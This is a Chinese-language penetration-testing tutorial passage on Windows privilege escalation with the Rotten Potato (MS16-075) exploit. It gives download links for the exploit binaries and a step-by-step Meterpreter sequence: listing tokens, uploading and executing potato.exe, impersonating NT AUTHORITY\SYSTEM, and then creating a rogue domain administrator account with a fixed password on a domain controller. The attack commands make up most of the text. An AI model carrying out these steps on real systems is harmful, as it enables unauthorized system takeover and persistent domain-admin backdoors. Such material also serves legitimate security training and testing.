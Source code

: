 脚本下载地址：

```plain
RottonPatato脚本：https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-075/potato.exe
https://github.com/breenmachine/RottenPotatoNG/blob/master/RottenPotatoEXE/x64/Release/MSFRottenPotato.exe
https://github.com/foxglovesec/RottenPotato
```

如果目标系统中存在有效令牌，可以通过`Rotten Potato`快速模拟用户令牌来实现权限的提升

在拿到meterpreter shell后，列出可用令牌

```plain
use incognito
list_tokens -u
```

[![](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/7.png)
](https://pingmaoer.github.io/2020/06/15/%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E5%88%86%E6%9E%90%E5%8F%8A%E9%98%B2%E5%BE%A1%E4%BA%8C/7.png)

先把`Potato`上传到目标机上，然后运行如下命令，执行烂土豆，

```plain
upload /home/kali/Desktop/ms.exe
execute -cH -f potato.exe
impersonate_token "NT AUTHORITY\SYSTEM"
```

[![](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/6.png)
](https://pingmaoer.github.io/2020/06/15/%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E5%88%86%E6%9E%90%E5%8F%8A%E9%98%B2%E5%BE%A1%E4%BA%8C/6.png)

由此，得到了`SYSTEM`权限

在测试的过程中发现，执行报错，卡了很久，之后想着继续执行一下试试，发现虽然执行报错，但是依旧提到system权限了，问了一下其他师傅说里面是有一个小bug，可能是token相关的，可能和双跳有关。

**添加域管理员**

```plain
net user pentest Admin!@#$1234 /add /domain
net user /domain
```

[![](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/20210425145148.png)
](https://pingmaoer.github.io/2020/06/15/%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E5%88%86%E6%9E%90%E5%8F%8A%E9%98%B2%E5%BE%A1%E4%BA%8C/8.png)

把域用户添加到管理员组， 并查看管理员组

```plain
net group "domain adminis" pentest /add /domain
net group "domain adminis" /domain
```

也可以使用meterpreter中的incognito来模拟域管理员，通过迭代系统中所有可用的身份验证令牌来添加域管理员

在meterpreter会话中执行，在域控主机上添加一个账户，将该账户添加到管理员组中

```plain
add_user hacke Admin!@#$1234 -h 192.168.1.1
add_group_user "Domain Admins" hacke -h 192.168.1.1、
```
